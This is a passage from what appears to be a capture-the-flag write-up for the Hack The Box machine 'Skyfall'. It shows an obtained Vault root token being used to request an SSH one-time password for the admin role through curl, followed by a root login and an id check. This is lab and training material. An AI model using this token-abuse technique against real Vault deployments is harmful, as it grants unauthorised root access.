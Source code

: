 &#x20;And done....... we now have admin token.

```bash
export VAULT_ROOT="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"  
```

Edit our payload.json file

```javascript
╰─➤  cat payload.json         
{
  "ip": "10.10.11.254",
  "username": "root"
}
```

Edit our curl command

```bash
─➤  curl \
    --header "X-Vault-Token: $VAULT_ROOT" \
    --request POST \
    --data @payload.json \
    "$VAULT_ADDR/v1/ssh/creds/admin_otp_key_role" -s | jq 
{
  "request_id": "53c328f3-f604-5402-10fd-57d4512642ae",
  "lease_id": "ssh/creds/admin_otp_key_role/LFeN97caTqUAJYAkwDFcdjt4",
  "renewable": false,
  "lease_duration": 2764800,
  "data": {
    "ip": "10.10.11.254",
    "key": "9b0118c3-3084-b4c0-e475-2d556700f4ea",
    "key_type": "otp",
    "port": 22,
    "username": "root"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}

# I changed 2 things, 
# 1st. --header as $VAULT_ROOT
# 2nd. v1/ssh/creds/admin_otp_key_role
#      changed from dev_otp_key_role to admin one 
```

NOW let's ssh.

```bash
─➤  ssh root@skyfall.htb      
(root@skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 27 13:20:05 2024 from 10.10.14.46
root@skyfall:~# id
uid=0(root) gid=0(root) groups=0(root)
```